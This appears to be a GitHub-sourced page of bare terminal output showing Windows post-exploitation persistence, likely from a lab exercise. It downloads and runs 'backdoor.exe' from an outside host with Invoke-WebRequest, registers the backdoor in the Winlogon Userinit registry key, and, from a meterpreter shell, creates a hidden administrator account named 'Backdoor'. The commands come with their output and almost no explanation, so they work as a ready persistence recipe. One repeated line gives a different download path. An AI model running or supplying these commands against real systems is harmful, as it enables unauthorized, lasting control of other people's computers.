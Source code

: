 ```
PS C:\Users\Administrator\Downloads> Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\Admini
strator\Downloads\backdoor.exe"
PS C:\Users\Administrator\Downloads> ls


    Directory: C:\Users\Administrator\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/30/2020   1:47 PM          73802 backdoor.exe


PS C:\Users\Administrator\Downloads> .\backdoor.exe
PS C:\Users\Administrator\Downloads> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d
 "Userinit.exe, C:\Users\Administrator\Downloads\backdoor.exe" /f
The operation completed successfully.
PS C:\Users\Administrator\Downloads>
```

`Invoke-WebRequest -Uri "http://10.8.106.222/backdoor.exe" -OutFile "C:\Users\Backdoor\Downloads\backdoor.exe"`

`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, C:\Users\Administrator\Downloads\backdoor.exe" /f`

```
meterpreter > shell
Process 5004 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>net user /add Backdoor backdoor         
net user /add Backdoor backdoor
The command completed successfully.


C:\Users\Administrator\Downloads>net localgroup Administrators Backdoor /add
net localgroup Administrators Backdoor /add
The command completed successfully.


C:\Users\Administrator\Downloads>net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Backdoor
The command completed successfully.


C:\Users\Administrator\Downloads>
```
